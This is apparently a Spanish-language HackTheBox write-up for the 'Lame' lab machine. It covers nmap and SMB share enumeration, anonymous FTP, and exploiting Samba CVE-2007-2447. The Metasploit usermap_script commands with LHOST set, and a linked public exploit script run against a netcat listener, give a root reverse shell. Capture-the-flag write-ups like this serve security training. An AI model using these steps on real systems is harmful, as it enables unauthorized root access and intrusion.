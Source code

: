 ```yaml
---
title: "Lame - HackTheBox"
layout: post
date: 2023-12-03 22:10
tag: 
- hackthebox
- Lame
image: /assets/images/htb.png
headerImage: true
projects: false
hidden: false
description: "Lame - HackTheBox"
category: blog
author: CAHOn3R
externalLink: false
---
```




Conexión
Conectar nuestra máquina de ataque a la VPN:

$ openvpn gorkamu-htb.ovpn
Capturar User Flag
Hacemos un nmap a la máquina para ver los puertos abiertos.

$ nmap -sC -sV 10.10.10.3
Y vemos que tiene lo siguiente:

nmap
Lo primero que llama la atención es el FTP anónimo por el puerto 21.

Nos conectamos por FTP al servidor (usuario: anonymous, password: anonymous):


Explain
$ ftp 10.10.10.3 Connected to 10.10.10.3. 220 (vsFTPd 2.3.4) Name (10.10.10.3:kali): anonymous 331 Please specify the password. Password: anonymous 230 Login successful. Remote system type is UNIX. Using binary mode to transfer files.
Si ejecutamos el comando “pwd” en el FTP veremos que estamos en la raíz y si ejecutamos “dir” o “ls” veremos que el servidor está vacío, no hay ficheros.

Salimos del FTP con un “quit”.

El siguiente puerto que vemos es el 139 por TCP asignado a Samba.

Si ejecutamos el script smb-enum-shares de nmap podemos ver los siguientes resultados:


Explain
$ nmap --script smb-enum-shares -p445 -Pn 10.10.10.3 Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower. Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-04 10:08 CET Nmap scan report for 10.10.10.3 Host is up (0.047s latency). PORT STATE SERVICE 445/tcp open microsoft-ds Host script results: | smb-enum-shares: | account_used: <blank> | \\10.10.10.3\ADMIN$: | Type: STYPE_IPC | Comment: IPC Service (lame server (Samba 3.0.20-Debian)) | Users: 1 | Max Users: <unlimited> | Path: C:\tmp | Anonymous access: <none> | \\10.10.10.3\IPC$: | Type: STYPE_IPC | Comment: IPC Service (lame server (Samba 3.0.20-Debian)) | Users: 1 | Max Users: <unlimited> | Path: C:\tmp | Anonymous access: READ/WRITE | \\10.10.10.3\opt: Type: STYPE_DISKTREE | Comment: | Users: 1 | Max Users: <unlimited> | Path: C:\tmp | Anonymous access: <none> | \\10.10.10.3\print$: | Type: STYPE_DISKTREE | Comment: Printer Drivers | Users: 1 | Max Users: <unlimited> | Path: C:\var\lib\samba\printers | Anonymous access: <none> | \\10.10.10.3\tmp: | Type: STYPE_DISKTREE | Comment: oh noes! | Users: 1 | Max Users: <unlimited> | Path: C:\tmp |_ Anonymous access: READ/WRITE Nmap done: 1 IP address (1 host up) scanned in 45.30 seconds
Esto indica que la ruta \10.10.10.3\tmp es vulnerable con acceso anónimo de lectura y escritura.

Exploit Metasploit
Vamos a ejecutar metasploit para lanzar un exploit.

$ msfconsole msf6 > search samba
Y elegimos exploit/multi/samba/usermap_script


Explain
msf6 > use exploit/multi/samba/usermap_script msg exploit(exploit/multi/samba/usermap_script) > set rhost 10.10.10.3 msg exploit(exploit/multi/samba/usermap_script) > set lhost 10.10.14.7 msg exploit(exploit/multi/samba/usermap_script) > run
Y automáticamente tendremos una shell inversa como root.

metasploit
Si navegamos a /home/makis/ veremos el fichero user.txt con la USER Flag

Exploit mediante un script
Otra forma de explotar esta vulnerabilidad sin usar metasploit es por medio de este script https://github.com/amriunix/CVE-2007-2447/blob/master/usermap_script.py

Nos lo descargamos mediante wget.

En una terminal nueva ponemos un netcat a escuchar por el puerto 4444 y en la terminal en la que nos hemos descargado el script lo lanzamos de la siguiente manera:

$ python3 usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
samba exploit
Esto nos abrirá una nueva conexión en netcat con una terminal inversa.

netcat
Si navegamos a /home/makis/ veremos el fichero user.txt con la USER Flag.

Capturar Root Flag
Estando en la shell inversa explotada por el exploit de samba, al ser ya root tan solo tenemos que ir a /root/root.txt y tendremos la ROOT Flag.

